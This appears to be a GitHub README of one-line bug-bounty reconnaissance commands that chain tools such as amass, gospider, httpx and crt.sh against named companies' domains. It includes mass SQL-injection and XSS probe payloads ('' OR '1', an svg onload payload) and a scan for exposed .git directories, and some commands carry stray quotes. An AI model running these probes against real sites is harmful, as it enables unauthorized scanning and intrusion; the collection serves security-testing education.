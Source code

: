 ## 👑 What is KingOfOneLineTips Project ? 👑

Our main goal is to share tips from some well-known bughunters. Using recon methodology, we are able to find subdomains, apis, and tokens that are already exploitable, so we can report them. We wish to influence Onelinetips and explain the commands, for the better understanding of new hunters.

## Join Us (Limited to 500 members)
[![Telegram](https://patrolavia.github.io/telegram-badge/chat.png)](https://t.me/KingOfTipsBugBounty)

[![GitHub followers](https://img.shields.io/github/followers/bminossi.svg?style=social&label=Follow&maxAge=2592000)](https://github.com/bminossi?tab=followers) 
[![GitHub followers](https://img.shields.io/github/followers/OfJAAH.svg?style=social&label=Follow&maxAge=2592000)](https://github.com/OfJAAH?tab=followers)

## Special thanks

- [@Stokfredrik](https://twitter.com/stokfredrik)
- [@Jhaddix](https://twitter.com/Jhaddix)
- [@pdiscoveryio](https://twitter.com/pdiscoveryio)
- [@TomNomNom](https://twitter.com/TomNomNom)
- [@jeff_foley](https://twitter.com/@jeff_foley)
- [@NahamSec](https://twitter.com/NahamSec)
- [@j3ssiejjj](https://twitter.com/j3ssiejjj)


## Scripts that need to be installed

To run the project, you will need to install the following programs:

- [Anew](https://github.com/tomnomnom/anew)
- [Qsreplace](https://github.com/tomnomnom/qsreplace)
- [Subfinder](https://github.com/projectdiscovery/subfinder)
- [Gospider](https://github.com/jaeles-project/gospider)
- [Github-Search](https://github.com/gwen001/github-search)
- [Amass](https://github.com/OWASP/Amass)
- [Hakrawler](https://github.com/hakluke/hakrawler)
- [Gargs](https://github.com/brentp/gargs)


###  Search Asn Amass
> @OFJAAAH
> @zeroc00I

- [Explaining command](https://bit.ly/2QnQAyW)

```bash
amass intel -org paypal -max-dns-queries 2500 | awk -F, '{print $1}' ORS=',' | sed 's/,$//' | xargs -P3 -I@ -d ',' amass intel -asn @ -max-dns-queries 2500''
```

###  Using chaos search js
> @OFJAAAH
> @zeroc00I

- [Explaining command](https://bit.ly/32vfRg7)

```bash
chaos -d att.com | httpx -silent | xargs -I@ -P20 sh -c 'gospider -a -s "@" -d 2' | grep -Eo "(http|https)://[^/"].*.js+" | sed "s#] - #\n#g" | anew | grep "http://att.com"'
```

###  Search Subdomain using Gospider
> @OFJAAAH
> @zeroc00I

- [Explaining command](https://bit.ly/2QtG9do)

```bash
gospider -d 0 -s "https://site.com" -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew
```

###  Using gospider to chaos
> @OFJAAAH
> @zeroc00I

- [Explaining command](https://bit.ly/2D4vW3W)

```bash
chaos -d paypal.com -bbq -filter-wildcard -http-url | xargs -I@ -P5 sh -c 'gospider -a -s "@" -d 3'
```

###  Using recon.dev and gospider crawler subdomains
> @OFJAAAH
> @zeroc00I

- [Explaining command](https://bit.ly/32pPRDa)

```bash
curl "https://recon.dev/api/search?key=apiKEY&domain=paypal.com" |jq -r '.[].rawDomains[]' | sed 's/ //g' | anew |httpx -silent | xargs -I@ gospider -d 0 -s @ -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew'
```

###  PSQL - search subdomain using cert.sh
> @OFJAAAH
> @zeroc00I

- [Explaining command](https://bit.ly/32rMA6e)

```bash
psql -A -F , -f querycrt -h http://crt.sh -p 5432 -U guest certwatch 2>/dev/null | tr ', ' '\n' | grep twitch | anew'
```

###  Search subdomains using github and httpx
> @OFJAAAH
> @zeroc00I

- [Github-search](https://github.com/gwen001/github-search) - Using python3 to search subdomains, httpx filter hosts by up status-code response (200)

```python
./github-subdomains.py -t APYKEYGITHUB -d domaintosearch | httpx --title
```

###  Search SQLINJECTION using qsreplace search syntax error
> @OFJAAAH
> @zeroc00I

- [Explained comand](https://bit.ly/3hxFWS2)

```bash
grep "="  .txt| qsreplace "' OR '1" | httpx -silent -store-response-dir output -threads 100 | grep -q -rn "syntax\|mysql" output 2>/dev/null && \printf "TARGET \033[0;32mCould Be Exploitable\e[m\n" || printf "TARGET \033[0;31mNot Vulnerable\e[m\n"
```

###  Search subdomains using jldc
> @OFJAAAH
> @zeroc00I

- [Explained comand](https://bit.ly/2YBlEjm)

```bash
curl -s "https://jldc.me/anubis/subdomains/att.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | anew
```

###  Search subdomains in assetfinder using hakrawler spider to search links in content responses
> @OFJAAAH
> @zeroc00I

- [Explained comand](https://bit.ly/3hxRvZw)

```bash
assetfinder -subs-only http://tesla.com -silent | httpx -timeout 3 -threads 300 --follow-redirects -silent | xargs -I% -P10 sh -c 'hakrawler -plain -linkfinder -depth 5 -url %' | grep "tesla"
```

###  Search subdomains in cert.sh
> @OFJAAAH
> @zeroc00I

- [Explained comand](https://bit.ly/2QrvMXl)

```bash
curl -s "https://crt.sh/?q=%25.att.com&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | httpx -title -silent | anew
```

###  Search subdomains in cert.sh assetfinder to search in link /.git/HEAD
> @OFJAAAH
> @zeroc00I

- [Explained comand](https://bit.ly/3lhFcTH)

```bash
curl -s "https://crt.sh/?q=%25.tesla.com&output=json" | jq -r '.[].name_value' | assetfinder -subs-only | sed 's#$#/.git/HEAD#g' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```
```bash
curl -s "https://crt.sh/?q=%25.enjoei.com.br&output=json" | jq -r '.[].name_value' | assetfinder -subs-only | httpx -silent -path /.git/HEAD -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```
###  Collect js files from hosts up by gospider
> @OFJAAAH
> @zeroc00I

- [Explained comand](https://bit.ly/3aWIwyI)

```bash
xargs -P 500 -a pay -I@ sh -c 'nc -w1 -z -v @ 443 2>/dev/null && echo @' | xargs -I@ -P10 sh -c 'gospider -a -s "https://@" -d 2 | grep -Eo "(http|https)://[^/\"].*.js+" | sed "s#\] \- #\n#g" | anew'
```

###  Subdomain search Bufferover resolving domain to httpx
> @OFJAAAH
> @zeroc00I

- [Explained comand](https://bit.ly/3lno9j0)

```bash
curl -s https://dns.bufferover.run/dns?q=.sony.com | jq -r '.FDNS_A[]' | sed -s 's/,/\n/g' | httpx -silent | anew
```

###  Using gargs to gospider search with parallel proccess
- [Gargs](https://github.com/brentp/gargs)

> @OFJAAAH
> @zeroc00I

- [Explained comand](https://bit.ly/2EHj1FD)

```bash
httpx -ports 80,443,8009,8080,8081,8090,8180,8443 -l domain -timeout 5 -threads 200 --follow-redirects -silent | gargs -p 3 'gospider -m 5 --blacklist pdf -t 2 -c 300 -d 5 -a -s {}' | anew stepOne
```

###  Injection xss using qsreplace to urls filter to gospider
> @OFJAAAH
> @zeroc00I

- [Explained comand](https://bit.ly/3joryw9)

```bash
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```

###  Extract URL's to apk
> @OFJAAAH
> @zeroc00I

- [Explained comand](https://bit.ly/2QzXwJr)

```bash
apktool d app.apk -o uberApk;grep -Phro "(https?://)[\w\.-/]+[\"'\`]" uberApk/ | sed 's#"##g' | anew | grep -v "w3\|android\|github\|schemas.android\|google\|goo.gl"
```

###  Chaos to Gospider
> @OFJAAAH
> @zeroc00I

- [Explained comand](https://bit.ly/3gFJbpB)

```bash
chaos -d att.com -o att -silent | httpx -silent | xargs -P100 -I@ gospider -c 30 -t 15 -d 4 -a -H "x-forwarded-for: 127.0.0.1" -H "User-Agent: Mozilla/5.0 (Linux; U; Android 2.2) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1" -s @
```

###  Checking invalid certificate
> @OFJAAAH
> @zeroc00I
- [Real script](https://bit.ly/2DhAwMo)
- [Script King](https://bit.ly/34Z0kIH)

```bash
xargs -a domain -P1000 -I@ sh -c 'bash cert.sh @ 2> /dev/null' | grep "EXPIRED" | awk '/domain/{print $5}' | httpx
```


# Project

[![made-with-Go](https://img.shields.io/badge/Made%20with-Go-1f425f.svg)](http://golang.org)
[![made-with-bash](https://img.shields.io/badge/Made%20with-Bash-1f425f.svg)](https://www.gnu.org/software/bash/)
[![Open Source? Yes!](https://badgen.net/badge/Open%20Source%20%3F/Yes%21/blue?icon=github)](https://github.com/Naereen/badges/)
[![The King](https://aleen42.github.io/badges/src/twitter.svg)](https://twitter.com/ofjaaah)
[![The King](https://aleen42.github.io/badges/src/twitter.svg)](https://twitter.com/zeroc00I)
[![The King](https://aleen42.github.io/badges/src/twitter.svg)](https://twitter.com/willxenoo)
[![Telegram](https://patrolavia.github.io/telegram-badge/chat.png)](https://t.me/KingOfTipsBugBounty)




<a href="https://www.buymeacoffee.com/OFJAAAH" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 20px !important;width: 50px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>



